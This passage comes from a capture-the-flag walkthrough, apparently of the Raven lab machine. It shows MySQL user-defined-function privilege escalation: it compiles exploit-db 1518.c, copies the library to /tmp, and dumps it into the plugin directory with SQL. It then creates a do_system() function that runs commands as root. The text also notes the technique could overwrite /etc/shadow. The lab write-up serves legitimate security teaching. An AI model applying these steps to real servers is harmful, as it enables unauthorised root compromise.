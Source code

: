 Seems easy enough. I compiled the shared library in my Kali instance:

```
root@kali:~# cp /usr/share/exploitdb/exploits/linux/local/1518.c .
root@kali:~# gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```

Once that was done, I copied it over to the target’s `/tmp` directory via `scp`:

```
root@kali:~# scp 1518.so michael@raven.local:/tmp
michael@raven.local's password:
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
1518.so
```

We can ignore the warning. The `1518.so` file should now be in `/tmp` on the target. We can verify this:

```
michael@Raven:~$ ls -l /tmp/
total 20
-rwxr-xr-x 1 michael michael 19136 Nov  9 16:18 1518.so
```

Ok, let’s see if we can utilize this UDF exploit technique. Log into MySQL as root and run the following commands as I did:

```
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/tmp/1518.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
Query OK, 1 row affected (0.01 sec)

mysql> create function do_system returns integer soname '1518.so';
Query OK, 0 rows affected (0.00 sec)
```

Quick explanation of what’s happening here. The first line creates a table that takes a blob (Binary Large Object). The reason we use a blob is because we’re going to be copying the contents of `/tmp/1518.so` into this table and that shared library is a binary. That’s exacly what the second line does with the `load_file` function.

The third line takes the contents of that table and dumps it into a `/usr/lib/mysql/plugin/1518.so`. This is basically a roundabout way to write files to root-writable only locations. So technically you could use this technique to read the contents of `/etc/shadow`, edit the hash for the root account with one that you have the password to, and dump the contents of that table to `/etc/shadow` thereby overwriting it. However, I’d prefer not to modify any important files, so let’s keep going.

The fourth line creates a function called `do_system()` that will allow us to run any commands as the root user. Let’s see it in action. The first command I’ll try is `id` just to make sure that we’re running as root. It’ll save the output into `/tmp/out`:

```
mysql> select do_system('id > /tmp/out; chmod 644 /tmp/out');
+------------------------------------------------+
| do_system('id > /tmp/out; chmod 644 /tmp/out') |
+------------------------------------------------+
|                                              0 |
+------------------------------------------------+
1 row in set (0.00 sec)
```
